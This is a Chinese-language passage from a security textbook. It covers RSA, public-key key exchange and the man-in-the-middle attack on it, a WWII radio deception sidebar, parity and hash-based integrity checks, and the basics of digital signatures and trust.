或

`P = RSA(RSA(P, e), d) = RSA(RSA(P, d), e)`

（你可以将 `E` 和 `D` 视为两个互补函数，每个函数都可以“撤销”另一个的效果。）

##### RSA 密钥长度与性能

RSA 确实有一个不幸的特性：密钥很长。256 位被认为是最小可用长度，但在大多数情况下，专家倾向于使用 1000 到 2000 位量级的密钥。RSA 中的加密是通过指数运算完成的，将每个明文块乘方；该指数即为密钥 `e`。与对称算法快速的替换和置换不同，指数运算在计算机上极其耗时。更糟糕的是，加密时间随着指数（密钥）增长而呈指数级增加。因此，RSA 明显比 DES 和 AES 慢。

##### 数学基础与安全性

加密算法基于在称为域的有限集合中分解大数这一底层问题。迄今为止，没有人找到在域中分解大数的捷径或简便方法。在一篇技术性很强但极佳的论文中，Dan Boneh [[BON99]](#bib01.html#bib_86) 回顾了所有已知的针对 RSA 的密码分析攻击，并得出结论：没有一种是显著的。由于因式分解问题已悬而未决数十年，大多数密码学家认为该问题为安全密码系统提供了坚实的基础。

##### 算法比较

总之，两种对称算法 DES 和 AES 为 64 到 256 位数据块提供可靠的加密。非对称算法 RSA 加密各种大小的数据块。DES 和 AES 比 RSA 快得多，快 10,000 倍或更多，而且它们相当简单的基本操作已被内置到某些计算机芯片中，使其加密效率甚至比 RSA 更高。因此，人们倾向于将 DES 和 AES 作为主要的加密主力，而将较慢的 RSA 保留用于其擅长的有限用途。

表 2-13 对比了密钥（对称）和公钥（非对称）算法的特性。



**表 2-13** 密钥加密与公钥加密的比较

#### 利用公钥密码学交换密钥

加密算法本身并非满足所有人加密需求的答案。虽然加密实现了受保护的通信信道，但也可用于其他任务。事实上，结合对称和非对称加密往往能发挥两者的最佳特性。

假设你需要向一个你不认识、也不认识你的人发送受保护的消息。这种情况比你想象的更常见。例如，你可能想向政府发送纳税申报表。你希望信息受到保护，但不一定认识接收信息的人。同样，你可能想从购物网站购物、交换私密（加密）邮件，或安排两台主机建立受保护的信道。这些情况都取决于能否以其他人无法拦截的方式交换加密密钥。两个互不相识的当事方交换加密密钥的问题既困难又重要。事实上，这个问题近乎循环论证：要建立加密会话，你需要一种加密手段来交换密钥。

公钥密码学可以提供帮助。由于非对称密钥成对出现，一半可以公开而不泄露另一半。事实上，你可以将密钥对的公开半部分视为真正的公开——发布在公共网站上、列在类似电话簿的公共目录中，或在电子邮件中公开发送。这就是公钥密码学的美妙之处：只要私钥不泄露，公钥就可以公开，而不会危及加密的安全性。

##### 简单密钥交换协议

假设发送方 Amy 和接收方 Bill 都拥有通用加密算法的非对称密钥对。我们将任意公钥加密函数表示为 `E(k, X)`，即使用密钥 `k` 对 `X` 执行公钥加密函数。分别称 Amy 和 Bill 的私钥和公钥为 `k[PRIV-A]`、`k[PUB-A]`、`k[PRIV-B]` 和 `k[PUB-B]`。

我们要解决的问题是让 Amy 和 Bill 能够建立一个只有他们知道的秘密（对称算法）加密密钥。最简单的解决方案是 Amy 选择任意对称密钥 `K`，并将 `E(k[PRIV-A], K)` 发送给 Bill。Bill 使用 Amy 的公钥解密，获得 `K`。

然而，这个分析是有缺陷的。发送方如何知道公钥真正属于预期的接收方？请考虑以下场景。假设 Amy 和 Bill 没有方便的公告栏。于是 Amy 直接向 Bill 索要密钥。基本上，密钥交换协议（如图 2-24 所示）将按如下方式工作：

1. Amy 说：Bill，请发送你的公钥给我。
2. Bill 回复：给你，Amy；这是我的公钥。
3. Amy 回应：谢谢。我为我们这次交换生成了一个对称密钥。我将用你的公钥加密后发送给你。



**图 2-24** 密钥交换协议

在图 2-25 所示的破坏中，我们在通信中插入了一个攻击者 Malvolio。

1. Amy 说：Bill，请发送你的公钥给我。
   1a. Malvolio 拦截消息，伪造一条新消息发给 Bill，声称来自 Amy 但使用 Malvolio 的回复地址，索要 Bill 的公钥。
2. Bill 回复：给你，Amy；这是我的公钥。（由于步骤 1a 中的回复地址，此回复发给了 Malvolio。）
   2a. Malvolio 保留 Bill 的公钥，将自己的公钥发给 Amy，谎称来自 Bill。
3. Amy 回应：谢谢。我为我们这次交换生成了一个对称密钥。我将用你的公钥加密后发送给你。
   3a. Malvolio 拦截此消息，获取并保留 Amy 生成的对称密钥。
   3b. Malvolio 生成一个新的对称密钥发送给 Bill，附带一条声称来自 Amy 的消息：谢谢。我为我们这次交换生成了一个对称密钥。我将用你的公钥加密后发送给你。



**图 2-25** 中间人攻击下的密钥交换协议

总之，Malvolio 现在持有两个对称加密密钥，分别与 Amy 和 Bill 共享。Malvolio 不仅能窃取他们所有的通信内容，而且 Amy 和 Bill 无法安全通信，因为双方都不与对方共享密钥。

从这一点起，所有通信都经过 Malvolio。掌握两个对称密钥后，Malvolio 可以解密收到的任何内容，修改它，用另一个密钥加密，并将修改后的版本传输给另一方。Amy 和 Bill 都未察觉调包。这种攻击是一种**中间人**^(4)攻击，即未经授权的第三方介入本应仅在两人之间进行的活动。现实世界中中间人攻击的示例见侧边栏 2-15。

4. 遗憾的是，这种术语带有无可救药的性别歧视色彩。即使我们在本书中称这些攻击为“人在中间”或“入侵者在中间”，你也只会发现其他作者使用“中间人”这一术语，他们还使用“浏览器中间人”和“电话中间人”等术语，这些将在本书第 4 章中出现。因此，我们不得不遗憾地沿用这一惯用术语。

---

### 侧边栏 2-15 Aspidistra，二战中的中间人攻击

#### 二战中的中间人攻击：Aspidistra 发射台

二战期间，英国利用中间人攻击欺骗德国飞行员和平民。Aspidistra（一种常见的室内植物，又称铁线蕨，因其似乎能长生不老而得名）也是英国战时部于 1942 年从 RCA 公司购买的一台巨型无线电发射机的代号。该发射机功率达 500 千瓦，是当时美国任何电台允许功率的十倍，这意味着 Aspidistra 能将信号从英国传送到德国。

Aspidistra 的部分操作是通过广播虚假指令（降落、前往某地、掉头）来欺骗德国飞行员。尽管飞行员也从自己的控制员那里收到了有效的飞行指令，但这些额外的杂音使他们感到困惑，并可能导致不必要的飞行和时间损失。这部分攻击仅是一种冒充攻击。


目标区域的某些德国电台被关闭，以防止其成为信标，让盟军飞机能够顺着信号找到目标；如果电台持续广播，轰炸机会顺着信号摧毁天线及其附近的发射机。当一个电台关闭时，英国立即使用 `Aspidistra` 在德国刚刚关闭的电台的同一频率上开机广播。他们复制并转播另一德国电台的节目，但穿插了可能打击德国平民士气、削弱其战争支持度的宣传信息。

德国人试图通过告知听众敌人正在发射、建议听众收听官方德国广播通告来应对虚假广播——当然，英国忠实地复制并广播了这些通告。（更多细节和图片请见 [`www.qsl.net/g0crw/Special%20Events/Aspidistra2.htm`](http://www.qsl.net/g0crw/Special%20Events/Aspidistra2.htm) 和 [`bobrowen.com/nymas/radioproppaper.pdf`](http://bobrowen.com/nymas/radioproppaper.pdf)）。

---

### 修订后的密钥交换协议

回顾一下，我们开始讨论的是针对简单密钥交换协议的中间人攻击。有缺陷的协议如下：

**1.** A 说：B，请发送你的公钥给我。

**2.** B 回复：给你，A；这是我的公钥。

**3.** A 响应：谢谢。我已为我们生成一个对称密钥用于此次交换。我将用你的公钥加密后发送给你。

在第 2 步，入侵者拦截 B 的公钥并传递入侵者自己的公钥。如果 A 和 B 分半交换密钥，就能挫败入侵者。半个密钥对入侵者毫无用处，因为它不足以加密或解密任何东西。知道半个密钥不会实质性地提高入侵者未来破解加密的能力。

Rivest 和 Shamir [[RIV84]](#bib01.html#bib_518) 设计了一个可靠的协议，步骤如下：

**1.** Amy 发送她的公钥给 Bill。

**2.** Bill 发送他的公钥给 Amy。

**3.** Amy 创建一个对称密钥，使用 Bill 的公钥加密，并将结果的一半发送给 Bill。（注：结果的一半可能是前 *n*/2 位、所有奇数位，或其他约定好的形式。）

**4.** Bill 响应 Amy 确认收到部分结果（此时他无法解读，因此仅确认收到了一些比特）。Bill 用他的私钥加密任意随机数，并发送一半比特给 Amy。

**5.** Amy 发送加密结果的另一半给 Bill。

**6.** Bill 将 Amy 结果的两半拼合，用他的私钥解密，从而获得共享对称密钥。Bill 发送他加密随机数的另一半给 Amy。

**7.** Amy 将 Bill 随机数的两半拼合，用她的私钥解密，提取 Bill 的随机数，用现在共享的对称密钥加密，并发送给 Bill。

**8.** Bill 用对称密钥解密 Amy 的传输，并与他在第 6 步选择的随机数比对。匹配确认交换的有效性。

要理解该协议为何有效，请看第 3 步。入侵者 Malvolio 当然可以在第 1、2 步拦截两个公钥并替换为自己的。然而，在第 3 步，Malvolio 无法取走结果的一半，用他的私钥解密，再用 Bill 的密钥重新加密。比特无法逐个解密后重组。

在第 4 步，Bill 选取任意随机数，Amy 稍后将其返回给 Bill，以表明她成功接收了 Bill 发送的加密值。这种随机值称为 **nonce**（一次性数字），本身无意义，用于显示活性（liveness）和原创性（非重放）。在某些协议中，接收方解密 nonce，加 1，重新加密并返回。其他时候 nonce 包含日期、时间或序列号以表明数值是当前的。此概念用于缺乏人际交互特征的计算机间交换。

#### 真实性

中间人问题还有另一种解决方式：Amy 应发送给 Bill 以下内容：

`E(k[PUB-B], E(k[PRIV-A], K))`

此函数确保只有 Bill 使用 `k[PRIV-B]` 才能移除用 `k[PUB-B]` 应用的加密，且 Bill 知道只有 Amy 能应用 `k[PRIV-A]`（Bill 用 `k[PUB-A]` 移除）。

我们可以用锁和印章来理解此交换。任何人都能通过投信口将信件投入上锁的信箱，但只有持钥匙者能取出。旧时要人有印章，会压在信件的熔蜡上；印章印记证明真实性，但任何人都能破蜡读信。将这两者结合，上锁信箱里的加印信件同时强制执行发送者真实性（印章）和接收者机密性（上锁信箱）。

若 Amy 想发送受保护信息给 Bill（如信用卡号或医疗记录），交换过程大致如下。Amy 用她的私钥封印受保护信息，使其只能用 Amy 的公钥开启。此步确保真实性：只有 Amy 能应用用 Amy 公钥可逆的加密。接着 Amy 用 Bill 的公钥锁定信息。此步增加机密性，因为只有 Bill 的私钥能解密用 Bill 公钥加密的数据。Bill 用他的私钥开信箱（仅他能做），并用 Amy 的公钥验证内层印章（证明包裹来自 Amy）。

因此，正如我们所见，非对称加密函数是无先前关系的人员间交换加密密钥的强大手段。非对称加密函数虽慢，但仅用于一次性交换对称密钥。此外，若交换的密钥用于 AES 或 DES 等对称加密系统，密钥长度相对较短，AES 最长 256 位，DES 为 64 位。即使使用密钥长度 1000 位的扩展 AES，公钥加密的低速也不会是显著问题，因为它仅执行一次以建立共享密钥。

非对称加密对另一个重要安全构造也很有用：数字签名。纸质文件上的人工签名是一种强有力的证明：它同时表示同意（你同意签署文件的条款）和理解（你知道你在签什么）。人们接受手写签名作为当面确认的替代。我们希望有一个同样强大的构造来确认电子文档。要构建数字签名，我们引入完整性码、密钥证书，最后是签名本身。

### 错误检测码

#### 通信传输中的错误检测与纠正

通信传输极易出错。您可能注意到，手机通话偶尔会跳过或失真一小段对话，电视信号有时也会出现通常称为噪声的问题。在这些情况下，只要噪声相对轻微或不频繁，完整准确的接收并不重要。您可以随时请电话那头的人重复一句，电视上的制胜进球也总会重播多次。

然而，对于重要数据，我们需要某种方法来确定传输是否完整无损。数学家和工程师设计了称为**错误检测和纠正码**的公式，以使传输错误显现并执行微修。

错误检测码有许多名称，如**哈希码**、**消息摘要**、**校验和**、**完整性检查**、**错误检测和纠正码**以及**冗余测试**。尽管这些术语在含义上有细微差别，但其基本目的都是证明一块数据已被修改。这句话措辞严谨：消息摘要*有时*会发出内容已更改的信号，但在证明未修改方面不那么可靠，尽管这才是我们真正想要的。我们想要某种东西来证明无篡改——无论恶意与否；我们得到的却是通常能显示篡改的东西。

山姆写了一封信，制作并保留了一份复印件，将原件寄给特蕾莎。途中，费金拦截了信并做了修改；作为一名熟练的伪造者，费金欺骗了特蕾莎。只有当特蕾莎和山姆见面并比较（被修改的）原件时，他们才发现了变化。

如果山姆和特蕾莎怀疑附近有伪造者，情况就不同了。山姆仔细统计文档中的字母数量，`a` 计 1，`b` 计 2，以此类推，`z` 计 26。他将这些值相加，并将总和用微小的数字写在信的底部。特蕾莎收到信后进行相同的计算，并将结果与底部写的数字比较。会出现三种情况：

*   计数不一致，特蕾莎怀疑有变动
*   没有计数，特蕾莎怀疑山姆偷懒或健忘，或者伪造者忽略了他们的代码
*   特蕾莎的计数与底部写的一致

最后一种情况最成问题。特蕾莎可能会如释重负地得出结论：没有变化。然而，正如您可能已确定的，她的想法可能不正确。费金可能识破密码并正确计算出与修改相匹配的新总和。更糟的是，费金的修改可能恰好逃过检测。假设费金移除一个字母 `c`（值=3）并用三个 `a`（值=1+1+1=3）替换；总和相同。或者如果费金只是重排字母，总和保持不变，因为它对顺序不敏感。

这些问题的根源在于该码是**多对一函数**：两个或多个输入产生相同的输出。产生相同输出的两个输入称为**冲突**。事实上，所有消息摘要都是多对一函数，因此当它们报告发生变化时，变化确实发生了；但当它们报告无变化时，仅意味着*很可能*——而非*确定*——未发生变化，因为存在冲突的可能性。

冲突通常不是问题，主要有两个原因。首先，它们发生得不频繁。如果明文被缩减为 64 位摘要，我们预期冲突的可能性为 1/2⁶⁴^，约等于 1/10¹⁹^，确实极不可能。更重要的是，摘要函数是不可预测的，因此给定一个输入，找到产生相同输出的第二个输入是不可行的。因此，好的摘要函数冲突不频繁，且我们无法制造或预测它们。

我们可以使用错误检测和纠正码来防范数据修改。检测和纠正码是应用于数据块的过程或函数；您可能熟悉一种检测码：**奇偶校验**。这些码顾名思义：错误检测码检测错误发生的时间，错误纠正码无需原始数据副本即可实际纠正错误。错误码在推定完好无损的原始数据上计算并安全存储；稍后任何人都可以重新计算错误码，并检查接收到的结果是否与预期值匹配。如果值不匹配，肯定发生了变化；如果值匹配，则*很可能*——但不*确定*——未发生变化。

#### 奇偶校验

最简单的错误检测码是**奇偶校验**。根据现有数据位的总和，向该组数据位添加一个额外位，我们称之为指纹。奇偶校验分为**偶校验**和**奇校验**两种。采用偶校验时，若数据位之和为偶数，指纹为 0；若为奇数，指纹为 1；即奇偶校验位的设置使得所有数据位加校验位之和为偶数。奇校验相同，只是总和为奇数。例如，数据流 `01101101` 的偶校验位为 1（奇校验位为 0），因为 0+1+1+0+1+1+0+1 = 5，5+1=6（奇校验为 5+0=5）。

一个奇偶校验位可揭示单个位的修改。然而，奇偶校验无法检测双比特错误——即一组中两个位被更改的情况。一个奇偶校验位可检测所有单比特变化，以及三、五、七位的变化。表 2-14 显示了一些检测到和未检测到的变化示例。更改的位（每行显示从原始值 `00000000` 的变化）以**粗体、下划线**标出；表格显示奇偶校验是否正确检测到至少发生了一次变化。


**表 2-14** 奇偶校验检测到的变化

检测奇数个变化位导致约 50% 的变化检测率，这远远不够。我们可以通过增加奇偶校验位来提高该比率（例如计算位 1、3、5、7 的第二个奇偶校验位），但更多奇偶校验位会增加指纹大小；每次增加指纹大小，存储这些指纹的大小也随之增加。

奇偶校验仅表明某位已被更改；它不标识是哪一位被更改，更不用说何时、如何或由谁更改。在硬件存储设备上，称为**循环冗余校验**的码可检测记录和回放中的错误。一些更复杂的码称为**纠错码**，可检测多比特错误（数据组中两个或更多位被更改），并可能定位被更改的位（即需重置以纠正修改的位）。指纹大小、错误检测率和纠错能力引导我们走向更强大的码。

#### 哈希码

在大多数文件中，文件的元素或组件没有以任何方式绑定在一起。即，文件中的每个字节、位或字符都独立于其他所有字节、位或字符。这种缺乏绑定意味着更改一个值会影响文件的完整性，但这一变化很容易不被察觉。

我们希望以某种方式在文件周围加上印章或护盾，以便检测印章何时被破坏，从而知道某些东西已被更改。这一概念类似于中世纪信件上使用的蜡封；如果蜡封破损，收件人就会知道有人破坏了印章并阅读了内部信息。同样，密码学可用于**封存**文件，将其包裹起来，使任何更改都显而易见。提供印章的一种技术是计算文件的一个函数，有时称为文件的**哈希**、**校验和**或**消息摘要**。

Sam 和 Theresa 之间的代码是哈希代码。哈希代码常用于通信中，因为传输错误可能会影响传输数据的完整性。在这些情况下，代码值会随数据一起传输。无论是数据还是代码值受损，接收方都会检测到某些问题，并简单地请求重新传输该数据块。

这种协议足以应对无意错误，但并非旨在应对专门的对手。如果 Fagin 知道错误检测函数算法，那么他就可以更改内容并修正检测值使其匹配。因此，当可能涉及恶意对手时，安全通信需要一种更强的消息摘要形式。

##### 单向哈希函数

作为挫败 Fagin 的第一步，我们必须防止他从摘要值反向推导，以查看哪些可能的输入可能导致了该结果。例如，某些加密依赖于一种易于理解但难以计算的函数。举个简单的例子，考虑立方函数 `y = x³`。用手、用纸笔或用计算器计算 `x³` 并不难。但反函数 `y = ∛x` 却难以计算得多。而函数 `y = x²` 没有反函数，因为 `x` 有两种可能性：`+x` 和 `−x`。这类函数比其反函数更容易计算，被称为**单向函数**。

###### 文件变更检测

单向函数可用于创建变更检测算法。该函数必须依赖于被封存文件的所有位，因此即使单个位发生变化也会改变校验和结果。校验和值与文件一起存储。然后，每当有人访问或使用该文件时，系统都会重新计算校验和。如果计算出的校验和与存储的值匹配，则该文件很可能是完好的。

单向特性可防范恶意修改：攻击者无法“逆转”该函数来查看原始文件是什么，因此没有简单的方法来找到一组产生相同函数值的更改。（否则，攻击者可以找到同样具有恶意影响的不可检测修改。）

`Tripwire` `[KIM98]` 是一个对文件执行完整性检查的实用程序。使用 `Tripwire`，系统管理员计算每个文件的哈希值，并将这些哈希值存储在某个安全的地方，通常是离线存储。稍后，管理员重新运行 `Tripwire`，并将新的哈希值与之前的值进行比较。

###### 加密校验和

恶意修改的处理方式必须同时防止攻击者修改错误检测机制以及数据位本身。处理此问题的一种方法是使用一种技术，根据数据位的值来收缩和转换数据。

**加密校验和** 是一种生成校验和的加密函数。它是一种使用加密密钥的摘要函数，该密钥据推测仅为数据发送方和合法接收方所知。加密技术可防止攻击者更改数据块（明文）并同时更改校验和值（密文）使其匹配。攻击者当然可以更改明文，但攻击者没有密钥来重新计算校验和。加密校验和的一个例子是：首先使用任意非加密校验和函数导出敏感数据的 `n` 位摘要。然后对该摘要应用任意对称加密算法。没有密钥，攻击者无法确定被加密隐藏的校验和值。我们将在 第 12 章 中介绍其他加密哈希函数。

加密校验和的两大主要用途是代码篡改保护和传输中的消息完整性保护。代码篡改保护的实现方式正如我们刚才描述的检测文件变更的方式。类似地，通信数据上的校验和可识别在传输过程中被恶意或意外更改的数据。美国政府定义了**安全哈希标准**或**算法**（SHS 或 SHA），实际上是一组算法，用于计算校验和。我们将在 第 12 章 中探讨 SHA。

校验和是检测修改的重要对策。在本节中，我们将其应用于检测存储在磁盘上的程序遭受恶意修改的问题，但相同的技术也适用于防范数据变更，正如我们稍后在本书中将展示的那样。

强加密算法（如 DES 或 AES）特别适合封存值，因为外部人员不知道密钥，因此无法修改存储值以匹配被修改的数据。对于低威胁应用，甚至可以使用比 DES 或 AES 更简单的算法。在分组加密方案中，链接意味着将每个分组链接到前一个分组的值（从而链接到所有前面的分组），例如，通过使用异或运算将加密后的前一个分组与当前分组结合。文件的加密校验和可以是文件链式加密的最后一个分组，因为该分组将依赖于所有其他分组。我们将在 第 12 章 中更详细地描述链接。

正如我们在本章后面将看到的，这些技术解决了数字签名所需的不可篡改性和不可重用性。更改或重用很可能会被校验和标记，以便接收方判断出现了问题。

##### 签名

证明真实性的最有力技术是数字签名。就像纸质签名一样，数字签名是一种个人或组织将一种位模式附加到文件上的方式，它意味着确认，仅针对该文件，无法伪造，并能证明真实性。我们需要一种方法，让一方可以签署某物，并且像纸质签名一样，使签名在数天、数月、数年——无限期内保持有效。此外，该签名必须让所有访问该文件的人信服。当然，与涉及数字方法的大多数条件一样，前提是这种保证受限于试图破坏该保证的人所假定的技能和精力。

数字签名通常使用非对称或公钥加密。正如你刚才所见，公钥协议对于在没有其他信任基础的两方之间交换加密密钥非常有用。不幸的是，公钥加密协议涉及多轮消息和回复，如果任一方无法立即回复最新请求，这可能会很耗时。如果有一种技术，让一方可以可靠地预先计算某些协议步骤并将其放在安全的地方，以便即使只有一方处于活动状态也能执行协议，那将很有用。这种情况类似于银行柜员和 ATM 的区别。你可以取款、存款或付款、查询余额，因为银行已为 ATM 预先建立了处理这些简单活动的步骤，使其每天 24 小时可用，即使银行未营业。但如果你需要支票或外币，你可能需要直接与银行柜员打交道。

在本节中，我们定义数字签名并将其属性与纸质手写签名的属性进行比较。然后，我们描述数字签名周围的基础设施，使其能够被识别并长期有效。

###### 签名的组成部分和特征

数字签名只是一个与文件关联的二进制对象。但如果我们希望该签名具有纸质签名的效力，我们需要了解人类签名的属性。只有那时，我们才能为我们的数字版本表达需求。

####### 基于纸张签名的安全特性

考虑一种典型情况，它类似于一种常见的人类需求：一项将资金从一个人转移到另一个人的指令。换句话说，我们希望能够发送计算机支票的电子等价物。我们了解传统纸质支票的这笔交易特性：

- 支票是一种授权金融交易的 `tangible object`（有形物体）。
- 支票上的签名 `confirms authenticity`（确认真实性），因为（推测）只有合法签署人才能产生该签名。
- 在涉嫌伪造的情况下，可以请第三方来 `judge authenticity`（判断真实性）。
- 一旦支票兑现，它就会被注销，以便 `cannot be reused`（无法重复使用）。
- 纸质支票 `not alterable`（不可篡改）。或者，大多数形式的篡改都很容易被检测到。

通过支票进行商业交易依赖于 `prescribed form`（规定形式）的 `tangible objects`（有形物体）。但对于计算机上的交易，有形物体并不存在。因此，通过计算机授权付款需要一种不同的模型。让我们从银行和用户的角度来考虑这种情况的要求。

####### 数字签名的特性


假设 Sheila 向她的银行发送一条消息，授权其向 Rob 转账 100 美元。如果 Sheila 稍后否认发送过该消息，银行必须能够验证并证明该消息确实来自 Sheila。（这一特性称为 `non-repudiation`（不可否认性）。）银行还想知道该消息完全是 Sheila 的，且在传输过程中未被篡改。就 Sheila 而言，她希望确信她的银行无法伪造此类消息。（这一特性称为 `authenticity`（真实性/认证性）。）双方都希望确信该消息是新的，不是以前消息的重用，并且在传输过程中未被篡改。使用电子信号代替纸张使这一过程变得复杂。

但我们有办法使该过程生效。`digital signature`（数字签名）是一种产生与真实签名相同效果的协议：它是一种只有发送者能制作、但其他人能轻松识别为属于该发送者的标记。就像真实签名一样，数字签名确认对消息的同意。

数字签名必须满足两个主要条件：

- 它必须是 `unforgeable`（不可伪造的）。如果人员 `S` 使用签名 `Sig(S,M)` 对消息 `M` 进行签名，则没有其他人能产生该对 `[M, Sig(S,M)]`。
- 它必须是 `authentic`（真实的/可认证的）。如果人员 `R` 收到据称来自 `S` 的对 `[M, Sig(S,M)]`，`R` 可以检查该签名是否真的是来自 `S`。只有 `S` 能创建此签名，并且该签名牢固地绑定到 `M` 上。

如图 2-26 所示，这两个要求是计算机交易中的主要障碍。从与基于纸张的环境的类比中得出的另外两个特性，对于借助数字签名完成的交易也是可取的：

- `not alterable`（不可篡改）。传输后，`M` 不能被 `S`、`R` 或拦截者更改。
- `not reusable`（不可重用）。再次提交的旧消息将被 `R` 即时检测到。


**图 2-26** 数字签名要求

要了解数字签名如何工作，我们首先介绍一种满足前两个要求的机制。然后我们在该解决方案的基础上进行扩展，以满足其他要求。我们分步开发数字签名：首先构建一个解决篡改问题的组件，然后描述一种确保真实性的方法，最后开发一种建立身份的结构。最终，所有这些部分在一个概念上简单的框架中结合在一起。

我们刚刚描述了数字签名的组件：公钥密码学和安全消息摘要。这两个组件在技术上足以构成一个数字签名，但它们并未解决真实性问题。为此，我们需要一种以可信方式将用户身份与公钥绑定的结构。这种结构称为证书。最后，我们将介绍一种用于传输和验证证书的基础设施。

### 用于签名的公钥

公钥加密系统非常适合用于签名。为简化符号，假设用户 `U` 的公钥加密通过 `E(M, K[U])` 访问，而 `U` 的私钥变换写为 `D(M, K[U])`。我们可以将 `E` 视为保密变换（因为只有 `U` 能解密它），将 `D` 视为真实性变换（因为只有 `U` 能产生它）。但请记住，在某些非对称算法（如 RSA）中，`D` 和 `E` 是可交换的，任意一个都可应用于任何消息。因此，

```
D(E(M, K[U]), K[U]) = M = E(D(M, K[U]), K[U])
```

如果 `S` 希望将 `M` 发送给 `R`，`S` 使用真实性变换生成 `D(M, K[S])`。然后 `S` 将 `D(M, K[S])` 发送给 `R`。`R` 使用 `S` 的公钥变换解码消息，计算 `E(D(M, K[S]), K[S]) = M`。由于只有 `S` 能创建在 `E(–, K[S])` 下有意义的消息，因此该消息必定真正来自 `S`。此测试满足了真实性要求。

`R` 将保存 `D(M, K[S])`。如果 `S` 稍后声称该消息是伪造的（并非真正来自 `S`），`R` 只需展示 `M` 和 `D(M, K[S])`。任何人都可以验证：既然 `D(M, K[S])` 通过 `S` 的公钥变换转换为 `M`——但只有 `S` 能产生 `D(M, K[S])`——那么 `D(M, K[S])` 必定来自 `S`。此测试满足了不可伪造要求。

还有其他签名方法；一些使用对称加密，另一些使用非对称加密。此处展示的方法说明了协议如何满足不可伪造性和真实性的要求。为了增加保密性，`S` 可应用 `E(M, K[R])`，如图 2-27 所示。


**图 2-27** 非对称数字签名中双密钥的使用

这些组件——哈希函数、公钥密码学和协议——为我们提供了数字签名的技术组件。然而，我们还需要一个非技术组件。我们的签名者 `S` 当然可以执行协议来生成数字签名，任何拥有 `S` 公钥的人都可以确定该签名确实来自 `S`。但 `S` 是谁？我们没有可靠的方法将特定人类与该公钥关联起来。即使有人说“这个公钥属于 `S`”，我们凭什么相信这一断言？还记得本章前面提到的中间人攻击吗？当时 Amy 和 Bill 想要建立一个共享密钥？接下来我们将探讨如何在公钥和身份之间建立可信的绑定。

#### 信任

数字商务的一个核心问题是信任：你怎么知道一个微软网页真正属于微软？本节与其说是关于技术，不如说是关于信任的人为方面，因为这种信心是数字签名整个概念的基础。

在现实生活中，你可能会以不信任新相识者的方式信任一位挚友。随着时间的推移，你对某人的信任可能随着经历而增长，但如果此人背叛了你，信任可能会骤降。你会试探一个人，并根据结果增加或减少你的信任程度。这些经历构建了一个个人信任框架。

Web 页面可以在没有警告的情况下被替换和伪造。在某种程度上，如果没有异常情况，如果网站上的内容看起来可信或至少合理，并且你没有将该网站用于关键决策，你会假设该页面是真实的。如果该网站是你银行的网站，你可能会验证 `URL` 看起来是否真实。一些网站，特别是金融机构的网站，已经开始让每位客户选择一个安全图片，例如一辆炽热的红色跑车或一个标志性地标；用户被警告仅在看到他们之前选择的个人图片时才输入敏感信息。

在商业环境中，某些类型的机构意味着信任。你可能会信任（某些教育、宗教或社会组织的官员）。大型、成熟的公司，如银行、保险公司、医院和主要制造商，已经建立了一定程度的信任。机构的历史也能激发信任。确实，信任是品牌概念的基础，即因为你了解品牌而信任其质量。正如你稍后将看到的，对这种公认实体的信任是数字签名的重要组成部分。

##### 在人与人之间建立信任

作为人类，我们在日常与人的互动中始终在建立信任。我们通过识别声音、面孔或笔迹来辨认认识的人。有时，我们利用隶属关系来传递信任。例如，如果一个陌生人给我们打电话，我们听到“我代表当地政府……”或“我代表这家慈善机构打电话……”或“我是从学校/医院/警察局打电话来的，关于你的母亲/父亲/儿子/女儿/兄弟/姐妹……”，即使我们不认识对方，也可能决定信任来电者。根据通话的性质，我们可能决定相信来电者的隶属关系，或寻求独立验证。例如，我们可能从电话簿获取该机构的号码并回拨。或者我们可能向来电者寻求更多信息，例如“她穿的是什么颜色的夹克？”或“你们组织的主席是谁？”如果我们的信任度较低，甚至可能采取行动拒绝外部人员，例如“我会直接把支票寄给你们慈善机构，而不是给你我的信用卡号码。”

